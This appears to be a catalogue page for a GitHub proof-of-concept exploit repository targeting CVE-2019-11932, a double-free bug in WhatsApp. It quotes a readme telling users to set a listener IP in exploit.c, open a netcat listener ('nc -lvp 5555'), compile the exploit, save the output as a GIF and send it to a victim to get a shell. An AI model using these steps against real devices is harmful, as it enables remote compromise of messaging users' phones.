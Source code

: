 # CVE-2019-11932

 double-free bug in WhatsApp exploit poc

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/dorkerdevil](https://github.com/dorkerdevil) |
| Url      | [https://github.com/dorkerdevil/CVE-2019-11932](https://github.com/dorkerdevil/CVE-2019-11932)                                               |
| Stars    | 260                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2019-11932
 double-free bug in WhatsApp exploit poc.
 
 #Note: make sure to set the listner ip in exploit.c inorder to get shell
 
 nc -lvp 5555 or whatever port.
 
 and then compile.
 
 gcc -o exploit egif_lib.c exploit.c
 
 then run ./exploit and save the content to <filename>.gif
 
 and send to victim.
 
 #Source
 https://awakened1712.github.io/hacking/hacking-whatsapp-gif-rce/.
 
 #Poc_Video
 https://drive.google.com/file/d/1T-v5XG8yQuiPojeMpOAG6UGr2TYpocIj/view.         
 
 

 
 
  



## Get the content

```
git clone https://github.com/dorkerdevil/CVE-2019-11932
cd CVE-2019-11932
```

{% embed url="https://github.com/dorkerdevil/CVE-2019-11932" %}

<figure><img src="https://avatars.githubusercontent.com/u/15796745?v=4" alt=""><figcaption><p>dorkerdevil</p></figcaption></figure>
